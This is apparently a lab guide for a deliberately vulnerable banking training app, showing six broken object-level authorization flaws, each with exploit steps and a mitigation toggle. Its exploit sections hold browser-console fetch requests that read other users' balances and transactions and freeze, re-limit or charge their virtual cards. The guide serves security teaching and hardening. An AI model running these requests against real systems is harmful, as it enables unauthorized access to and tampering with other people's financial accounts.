# Broken Object-Level Authorization
BOLA is the absence or dysfunction of identity verification for read/write permissions through an API endpoint. Its presence effectively grants anyone access to the unprotected objects in question.



## Prerequisites
Browser access to functioning web app and two registered user accounts, at least one of which has:
- One transaction of any amount.
- One virtual card of any limit with a balance >= $0.

***Important Note***

Complete setup of at least one VC is necessary for pentesting. Should none be available, please [reset the database](../README.md#resetting-the-database). Should that not be an option, or should you prefer a different balance, take the following steps:
1. Create VC via web app UI. Set the limit to 1000.
2. Open the browser console and execute the following command:

    ```const token = localStorage.getItem('jwt_token');
    fetch('/api/virtual-cards/<vc_num>/update-limit', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
            Authorization: 'Bearer ' + token
        },
        body: JSON.stringify({
            current_balance: 1000.00
        })
    })
    .then(r => r.json())
    .then(console.log);
<vc_num> should be `1` if this instance of the web app is fresh and the VC added above is the first and only. `current_balance` may be any value between 0 and the card's limit.

3. Refresh the page, scroll down, and confirm VC balance if desired.

## Demonstrations
This vulnerability is present in six different functions within app.py. Steps for exploitation and verification of hardening are as follows.

### check_balance_hardened()
Grants attacker access to any user's balance.

```mermaid
sequenceDiagram
    participant check_balance() endpoint
    participant BOLA.check_balance_hardened()
    participant Users Table

    alt Vulnerable mode
        check_balance() endpoint->>Users Table: Query by account_number only
        Users Table-->>check_balance() endpoint: Return matching user's balance
    else Hardened mode
        check_balance() endpoint->>BOLA.check_balance_hardened(): Require current_user ownership
        BOLA.check_balance_hardened()->>Users Table: Query by account_number AND current_user.id
        Users Table-->>check_balance() endpoint: Return only caller-owned balance
    end
```

#### Exploit
1. Log in as any user and note their <account_number> (visible directly below their account balance).

2. Log out, then log in as any other user.
From here, this may be exploited in one of two ways:
##### via URL
3. Append /check_balance/<account_number> to the root URL. If the root is localhost:5000, the full URL should read localhost:5000/check_balance/<account_number>
4. Press enter, then observe outcome in browser window.

##### via CLI
3. Open the browser console/terminal.
4. Issue the following fetch request as a command, replacing `<ACCOUNT_NUMBER>` with the previously noted account number:
    ```const attackerToken = localStorage.getItem('jwt_token');
    fetch('/check_balance/' + '<ACCOUNT_NUMBER>', {
    headers: { Authorization: 'Bearer ' + attackerToken }
    }).then(r => r.json()).then(console.log);
5. Observe outcome.


#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack (either sequence of steps above) and observe outcome:


### get_transaction_history()
Grants attacker access to any user's transaction history.

```mermaid
sequenceDiagram
    participant get_transaction_history() endpoint
    participant BOLA.get_transaction_history_hardened()
    participant Transactions Table

    alt Vulnerable mode
        get_transaction_history() endpoint->>Transactions Table: Query by account_number only
        Transactions Table-->>get_transaction_history() endpoint: Return another user's transactions
    else Hardened mode
        get_transaction_history() endpoint->>BOLA.get_transaction_history_hardened(): Require current_user ownership scope
        BOLA.get_transaction_history_hardened()->>Transactions Table: Query by account_number AND current_user account scope
        Transactions Table-->>get_transaction_history() endpoint: Return caller-owned transactions only
    end
```

#### Exploit
Initial steps are identical to those above: log in, note account number, log out, then log in as another user. Specific API endpoint used is the only difference. Similarly, this can follow two paths:
##### via URL
1. Append /transactions/<account_number> to the root URL. If the root is localhost:5000, the full URL should read localhost:5000/transactions/<account_number>
2. Press enter, then observe outcome in browser window.
##### via CLI
1. Open the browser console/terminal.
2. Issue the following fetch request as a command -- replacing `<ACCOUNT_NUMBER>` with the previously noted account number -- and observe outcome:
   ```const attackerToken = localStorage.getItem('jwt_token');
    fetch('/transactions/' + '<ACCOUNT_NUMBER>', {
    headers: { Authorization: 'Bearer ' + attackerToken }
    }).then(r => r.json()).then(console.log);```

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack (either sequence of steps above) and observe outcome:


### toggle_card_freeze()
Allows attacker to freeze or unfreeze any user's virtual card.

```mermaid
sequenceDiagram
    participant toggle_card_freeze() endpoint
    participant BOLA.toggle_card_freeze_hardened()
    participant Virtual Cards Table

    alt Vulnerable mode
        toggle_card_freeze() endpoint->>Virtual Cards Table: UPDATE by card_id only
        Virtual Cards Table-->>toggle_card_freeze() endpoint: Freeze/unfreeze another user's card
    else Hardened mode
        toggle_card_freeze() endpoint->>BOLA.toggle_card_freeze_hardened(): Require card ownership by current_user
        BOLA.toggle_card_freeze_hardened()->>Virtual Cards Table: UPDATE by card_id AND current_user.id
        Virtual Cards Table-->>toggle_card_freeze() endpoint: Freeze/unfreeze caller-owned card only
    end
```

#### Exploit
1. Log in as any user and open browser console.
2. Issue the following fetch request as a command -- replacing <vc_num> with the virtual card ID of any <em>other</em> user -- and observe outcome:

    ```const attackerToken = localStorage.getItem('jwt_token');
    fetch('/api/virtual-cards/' + <vc_num> + '/toggle-freeze', {
    method: 'POST',
    headers: { Authorization: 'Bearer ' + attackerToken }
    }).then(r => r.json()).then(console.log);

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack and observe outcome:


### get_card_transactions()
Grants attacker access to a collection of transactions related to any virtual card of any user.

```mermaid
sequenceDiagram
    participant get_card_transactions() endpoint
    participant BOLA.get_card_transactions_hardened()
    participant Card Transactions Table

    alt Vulnerable mode
        get_card_transactions() endpoint->>Card Transactions Table: SELECT by card_id only
        Card Transactions Table-->>get_card_transactions() endpoint: Return another user's card transactions
    else Hardened mode
        get_card_transactions() endpoint->>BOLA.get_card_transactions_hardened(): Require card ownership by current_user
        BOLA.get_card_transactions_hardened()->>Card Transactions Table: SELECT by card_id AND current_user.id
        Card Transactions Table-->>get_card_transactions() endpoint: Return caller-owned card transactions only
    end
```

#### Exploit
1. Log in as any user and open browser console.
2. Issue the following fetch request as a command -- replacing <vc_num> with any integer corresponding to another user's virtual card ID -- and observe outcome:

    ```fetch('/api/virtual-cards/' + <vc_num> + '/transactions', {
    method: 'GET',
    headers: { Authorization: 'Bearer ' + localStorage.getItem('jwt_token') }
    }).then(r => r.json()).then(console.log);



#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack and observe outcome:


### update_card_limit()
Allows attacker to update the limit on any virtual card belonging to any user.

```mermaid
sequenceDiagram
    participant update_card_limit() endpoint
    participant BOLA.update_card_limit_hardened()
    participant Virtual Cards Table

    alt Vulnerable mode
        update_card_limit() endpoint->>Virtual Cards Table: UPDATE by card_id only
        Virtual Cards Table-->>update_card_limit() endpoint: Update another user's card limit
    else Hardened mode
        update_card_limit() endpoint->>BOLA.update_card_limit_hardened(): Require card ownership by current_user
        BOLA.update_card_limit_hardened()->>Virtual Cards Table: UPDATE by card_id AND current_user.id
        Virtual Cards Table-->>update_card_limit() endpoint: Update caller-owned card only
    end
```

#### Exploit
1. Log in as any user and open the browser console.
2. Issue the following fetch request as a command -- replacing <vc_num> with any integer corresponding to another user's virtual card ID -- and observe outcome:

    ```fetch('/api/virtual-cards/<vc_num>/update-limit', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer ' + localStorage.getItem('jwt_token')
    },
    body: JSON.stringify({ card_limit: 50000 })
    }).then(r => r.json()).then(console.log);



#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack and observe outcome:


### create_bill_payment()
Allows attacker to create a payment on the balance of any card belonging to any user.

```mermaid
sequenceDiagram
    participant create_bill_payment() endpoint
    participant BOLA.create_bill_payment_hardened()
    participant Virtual Cards Table

    alt Vulnerable mode
        create_bill_payment() endpoint->>Virtual Cards Table: Validate card by card_id only
        Virtual Cards Table-->>create_bill_payment() endpoint: Accept another user's card for payment
    else Hardened mode
        create_bill_payment() endpoint->>BOLA.create_bill_payment_hardened(): Require card ownership by current_user
        BOLA.create_bill_payment_hardened()->>Virtual Cards Table: Validate card by card_id AND current_user.id
        Virtual Cards Table-->>create_bill_payment() endpoint: Accept caller-owned card only
    end
```

#### Exploit
1. Log in as any user and open the browser console.
2. Issue the following fetch request as a command -- replacing <vc_num> with any integer corresponding to another user's virtual card ID -- and observe outcome:

    ```const attackerToken = localStorage.getItem('jwt_token');
    fetch('/api/bill-payments/create', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        Authorization: 'Bearer ' + attackerToken
    },
    body: JSON.stringify({
        biller_id: 1,
        amount: 1.0,
        payment_method: 'virtual_card',
        card_id: <vc_num>,
        description: 'test' // Can be any string
    })
    }).then(r => r.json()).then(console.log);



#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack and observe outcome:
